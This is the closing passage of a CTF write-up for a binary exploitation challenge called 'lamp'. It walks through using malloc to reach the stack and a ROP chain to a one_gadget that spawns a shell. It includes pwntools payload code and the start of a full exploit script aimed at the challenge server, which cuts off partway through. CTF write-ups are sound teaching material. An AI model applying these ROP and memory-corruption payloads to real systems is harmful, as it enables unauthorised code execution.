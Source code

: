 Then, I can perform the whole dance again: `malloc()` a pointer into the stack, overwrite until reaching the `read()` return address, leave the return address the same, write a ROP chain to onegadget, `malloc()` another pointer, and overwrite the bottom byte of the `read()` return address with a ret gadget to trigger the ROP chain, and you've got a shell! (No need to worry about the user input buffer corrupting a pointer again, because after the previous ROP chain we're working way further down on the stack, well away from the user input buffer)


```python
# Go to return address
p.send(b"58")
p.send(b"\x00" * (offset + 0xc0))

# Leave the return address as is
real_return = bin_base + 0x1196
p.send(p64(real_return))

# Afterwards, set up a onegadget
p.send(p64(pop_rbx))
p.send(p64(0))
p.send(p64(libc_base + 0x206000))   # rbp
p.send(p64(libc_base + 0xef4ce))
p.send(b'\n')

# Go back to return address
p.send(b"f8")
p.send(b'\x00' * (offset + 0xc0))
p.send(b'\xf8')

p.interactive()
```

Thanks to ACM Cyber at UCLA for putting on this CTF, and thanks for enzocut for creating this challenge! I really enjoy this sort of "minimal" challenge where the apparent simplicity of a program requires a creative, outside-the-box exploit chain.

## Full Exploit Script ([download link](e.py))

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("lamp_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
debug_script='''
#decompiler connect binja
b main
continue
set gdb-workaround-stop-event 1
set resolve-heap-via-heuristic force
#b malloc
#commands
#fin
#end
continue
'''

def conn():
    if args.REMOTE:
        p = remote("chall.lac.tf", 31169)
    elif args.D:
```